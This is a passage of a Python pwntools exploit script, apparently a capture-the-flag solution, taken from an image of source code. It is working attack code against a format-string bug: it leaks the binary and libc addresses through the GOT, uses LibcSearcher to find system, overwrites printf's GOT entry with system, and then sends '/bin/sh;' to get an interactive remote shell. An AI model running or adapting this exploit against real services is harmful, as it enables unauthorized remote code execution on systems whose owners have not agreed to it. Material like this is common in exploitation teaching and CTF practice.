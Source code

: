 ```python
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()


##getbinary()
read_got = 0x601020
printf_got = 0x601018
sh = remote(ip, port)
## let the read get resolved
sh.sendline('a')
sh.recv()
## get printf addr
payload = '%00008$s' + 'STARTEND' + p64(read_got)
sh.sendline(payload)
data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
sh.recv()
read_addr = u64(data)

## get system addr
libc = LibcSearcher('read', read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
log.success('system addr: ' + hex(system_addr))
log.success('read   addr: ' + hex(read_addr))
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()

## get shell
sh.sendline('/bin/sh;')
sh.interactive()
```
